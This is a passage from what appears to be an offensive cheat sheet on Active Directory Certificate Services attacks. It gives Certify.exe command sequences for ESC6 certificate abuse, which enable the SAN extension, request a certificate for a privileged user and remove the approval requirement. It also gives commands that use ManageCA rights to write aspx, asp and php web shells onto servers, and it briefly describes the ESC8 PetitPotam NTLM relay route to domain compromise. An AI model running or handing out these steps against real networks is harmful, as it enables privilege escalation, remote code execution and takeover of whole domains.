 * Detect CAs that allow low privileged users the `ManageCA`  or `Manage Certificates` permissions
    ```ps1
    Certify.exe find /vulnerable
    ```
* Change the CA settings to enable the SAN extension for all the templates under the vulnerable CA (ESC6)
    ```ps1
    Certify.exe setconfig /enablesan /restart
    ```
* Request the certificate with the desired SAN.
    ```ps1
    Certify.exe request /template:User /altname:super.adm
    ```
* Grant approval if required or disable the approval requirement
    ```ps1
    # Grant
    Certify.exe issue /id:[REQUEST ID]
    # Disable
    Certify.exe setconfig /removeapproval /restart
    ```

Alternative exploitation from **ManageCA** to **RCE** on ADCS server: 

```ps1
# Get the current CDP list. Useful to find remote writable shares:
Certify.exe writefile /ca:SERVER\ca-name /readonly

# Write an aspx shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

# Write the default asp shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

# Write a php shell to a remote web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input:C:\Local\path\shell.php
```


## ESC8 - AD CS Relay Attack

> An attacker can trigger a Domain Controller using PetitPotam to NTLM relay credentials to a host of choice. The Domain Controller’s NTLM Credentials can then be relayed to the Active Directory Certificate Services (AD CS) Web Enrollment pages, and a DC certificate can be enrolled. This certificate can then be used to request a TGT (Ticket Granting Ticket) and compromise the entire domain through Pass-The-Ticket.

Require [Impacket PR #1101](https://github.com/SecureAuthCorp/impacket/pull/1101)
